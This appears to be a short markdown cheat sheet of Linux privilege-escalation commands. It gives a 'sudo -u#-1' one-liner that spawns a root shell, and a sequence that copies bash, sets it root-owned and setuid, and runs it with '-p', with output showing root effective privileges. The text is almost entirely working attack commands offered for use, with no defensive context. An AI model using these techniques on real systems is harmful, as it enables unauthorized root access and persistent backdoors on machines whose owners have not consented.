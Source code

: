 #### SUDO BASH
```
sudo -u#-1 /bin/bash -i
```

#### Making Bash Executable for Root Priv Esc
```
cp /usr/bin/bash /home/james/

sudo chown root:root bash

sudo chmod +s bash

./bash -p

uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),1000(user)
```
